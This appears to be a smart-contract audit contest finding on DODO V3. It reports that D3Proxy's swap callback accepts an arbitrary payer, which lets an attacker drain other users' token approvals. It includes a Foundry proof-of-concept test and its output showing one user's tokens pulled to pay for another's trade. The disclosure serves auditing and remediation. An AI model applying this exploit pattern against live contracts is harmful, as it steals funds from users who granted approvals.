 jprod15

medium

# A malicious user can steal all allowances

## Summary
Due to the fact that the function d3MMSwapCallBack allows setting an arbitrary payer, this can be exploited by a hacker to steal funds
## Vulnerability Detail

    function d3MMSwapCallBack(address token, uint256 value, bytes calldata _data) external override {
        require(ID3Vault(_D3_VAULT_).allPoolAddrMap(msg.sender), "D3PROXY_CALLBACK_INVALID");
        SwapCallbackData memory decodeData;
        decodeData = abi.decode(_data, (SwapCallbackData));
        _deposit(decodeData.payer, msg.sender, token, value);//@audit-issue payer can be steal their token aprovals 
    }

As can see, decodeData = abi.decode(_data, (SwapCallbackData)) allows setting an arbitrary payer

      function _deposit(address from, address to, address token, uint256 value) internal {
        if (token == _WETH_ && address(this).balance >= value) {
            // pay with WETH9
            IWETH(_WETH_).deposit{value: value}(); // wrap only what is needed to pay
            IWETH(_WETH_).transfer(to, value);
        } else {
            // pull payment
            IDODOApproveProxy(_DODO_APPROVE_PROXY_).claimTokens(token, from, to, value);
        }
    }

run this for demonstrated stealing funds in D3Trading.t.sol

    function setVaultAsset() public {
        token1.mint(user1, 1000 * 1e8);
        vm.prank(user1);
        token1.approve(address(dodoApprove), type(uint256).max);
        token2.mint(user1, 1000 * 1e18);
        vm.prank(user1);
        token2.approve(address(dodoApprove), type(uint256).max);

        token3.mint(user1, 1000 * 1e18);
        vm.prank(user1);
        token3.approve(address(dodoApprove), type(uint256).max);

    +    token2.mint(user2, 1000 * 1e18); //@audit- info add this line here 
        

        mockUserQuota.setUserQuota(user1, address(token1), 1000 * 1e8);
        userDeposit(user1, address(token1), 500 * 1e8);
        mockUserQuota.setUserQuota(user1, address(token2), 1000 * 1e18);
        userDeposit(user1, address(token2), 500 * 1e18);
        mockUserQuota.setUserQuota(user1, address(token3), 1000 * 1e18);
        userDeposit(user1, address(token3), 500 * 1e18);
        mockUserQuota.setUserQuota(user1, address(weth), 1000 * 1e18);
    }

add this function test 

    function test_steal_NormalBuyTokens() public {
       
       
        uint256 beforeBalance2 = token2.balanceOf(user1);
        uint256 beforeBalance3 = token3.balanceOf(user1);
        uint256 beforebalanceu2 = token2.balanceOf(user2);
        console.log("balance before token2 user2",beforebalanceu2);
        console.log("balance before token2 user1",beforeBalance2);
        console.log("balance before token3 user1",beforeBalance3);

         
        vm.prank(user2);
        token2.approve(address(dodoApprove), type(uint256).max);

        SwapCallbackData memory swapData;
        swapData.data = "";
        swapData.payer = user2;//@audit-info user that have prior approval in dodoApprove

         vm.prank(user1);
        uint256 receiveToToken = d3Proxy.buyTokens(
            address(d3MM),
            user1,
            address(token2),
            address(token3),
            1 ether,
            30 ether,
            abi.encode(swapData),
            block.timestamp + 1000
        );
    
        console.log(" ");
        console.log("after steal tokens user 2 ");
        console.log(" ");
        uint256 afterBalance2 = token2.balanceOf(user1);
        uint256 afterBalance3 = token3.balanceOf(user1);
        uint256 afterBalance3u2 = token2.balanceOf(user2);

        console.log("balance after  token2 user2",afterBalance3u2);
        console.log("balance after  token2 user1",afterBalance2);
        console.log("balance after  token3 user1",afterBalance3);

        
    }

the result 

        Running 1 test for test/DODOV3MM/D3MM/D3Trading.t.sol:D3TradingTest
        [PASS] test_steal_NormalBuyTokens() (gas: 521072)
        Logs:
        balance before token2 user2 1000000000000000000000
        balance before token2 user1 500000000000000000000
        balance before token3 user1 500000000000000000000

        after steal tokens user 2

        balance after  token2 user2 999916398649987685431
        balance after  token2 user1 500000000000000000000
        balance after  token3 user1 501000000000000000000

        Test result: ok. 1 passed; 0 failed; finished in 4.52s

## Impact
users can loss funds 
## Code Snippet
https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/periphery/D3Proxy.sol#L138-L143

https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/periphery/D3Proxy.sol#L220
## Tool used

Manual Review

## Recommendation
To prevent a malicious user from setting an arbitrary payer, you could add a mechanism that requires the user to approve the payer